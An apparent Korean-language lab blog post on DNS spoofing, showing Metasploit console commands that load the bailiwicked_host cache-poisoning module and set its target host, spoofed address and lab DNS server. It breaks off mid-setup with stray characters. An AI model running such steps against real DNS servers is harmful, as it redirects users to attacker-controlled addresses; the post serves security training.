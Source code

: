 ```yaml
---
title:  "DNS Attack" 

categories:
  - spoofing
tags:
  - [DNS]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DNS attack

- 구성도

![제목 없음](../../assets/img/제목 없음-1664867752525-1.png)

- 공격

  - kail

    > metasploit 실행

    ```
    ┌──(root㉿kali)-[~]
    └─# msfconsole
    ```

    ![화면 캡처 2022-10-04 161129](../../assets/img/화면 캡처 2022-10-04 161129.png)

    ```
    msf6 > use auxiliary/spoof/dns/bailiwicked_host
    ```

    ![화면 캡처 2022-10-04 162456](../../assets/img/화면 캡처 2022-10-04 162456.png)

    > 설정하기

    A 레코드 문자열

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set hostname www.kh00.kh
    hostname => www.kh00.kh
    ```

    A레코드 IP 주소

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set NEWADDR 200.200.200.254
    NEWADDR => 200.200.200.254
    ```

    공격대상 DNS

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set RHOST 172.16.0.105 (공격대상 DNS)
    RHOST => 172.16.0.105
    ```

    root hint로 설정

    ```
    msf6 auxiliary(spoof/dns/bailiwicked_host) > set srcport 53 
    srcport => 53
    ```

    ![화면 캡처 2022-10-04 161524](../../assets/img/화면 캡처 2022-10-04 161524.png)

    ㄹㄹㅇㅁㄴ

    

    

